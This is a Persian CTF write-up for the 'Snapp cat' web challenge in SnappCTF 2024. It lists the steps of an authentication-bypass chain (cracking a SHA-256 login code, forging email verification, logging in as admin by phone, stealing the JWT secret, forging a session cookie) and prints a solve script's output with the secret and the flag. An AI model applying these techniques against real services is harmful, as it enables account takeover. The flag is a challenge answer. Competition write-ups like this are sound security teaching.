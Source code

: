 ```yaml
---
tags:
  - Snapp CTF
  - SnappCTF-2024
  - Swagger
  - JWT
  - Web
  - sha256
---
```


<h1 dir="ltr">Snapp cat</h1>

<center>

![snappcat.png](./snappcat.png)

</center>

# قدم های حل چالش:
1. ثبت نام یک کاربر رندوم
2. دریافت کد sha256 برای لاگین کردن
3. کرک کردن کد sha256 برای لاگین شدن
4. جنریت کردن کد برای وریفای کردن ایمیل
5. گرفتن کد وریفای ایمیل در کوکی 
7. گرفتن شماره تلفن ادمین
8. فراید لاگین به وسیله شماره تلفن ادمین
9. ساختن یه گربه!
10. خوندن کد js سرور
11. دریافت کد سکرت json-web-token و ست کردن کوکی برای گرفتن فلگ


برای حل این سوال من یک اسکریپت پایتون آماده کردم که میتونین از روی اون سوال رو حل کنین و بررسی کنین که چه اتفاقی میوفته

- [snappcat.py](../../../uploads/snappcat.py){:download="snappcat.py"}

بعد از دانلود فایل پایتون:

```sh
$ python3 snappcat.py
[+] registering with 2af8ba4edba03309: 
[+] response:  {'success': True}
[+] logging in with 2af8ba4edba03309
[+] resposne:  {'success': True}
[+] login with phone: +987714270933
[+] response: 200
[+] crack the code for sha256:04dc6d4a58836dce23191b5025d392f911a58c61452c580f79c9ec53f86b1ee6
[+] code cracked: 3189328
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] send verification email
[+] response: 200
[+] verify account
[+] response: 200
[+] login with phone: +133731333717
[+] response: 200
[+] crack the code for sha256:98fbf94b5485944c2325c846ec6234b6b7008c62dd2d17728b77ebef038ab5bd
[+] code cracked: 7494977
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] whoami?:  {'data': {'userId': 1}, 'success': True}
[+] create cat
[+] cat created with id: 62fd96ac-d0fe-4632-b7be-d2e873471acc
[+] display and get created cat
----------------------------------------------------------------------------------------------------
JWT SECRET: omidvaram-to-ke-ino-mibini-developer-website-bashi-fd29293cdeaf70dc67b420e73a37e172
----------------------------------------------------------------------------------------------------
[+] update jwt session
[+] reading flag xd
FLAG: SNAPP{7dc998269394314896af6378f15c2c12}
```


??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{7dc998269394314896af6378f15c2c12}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۵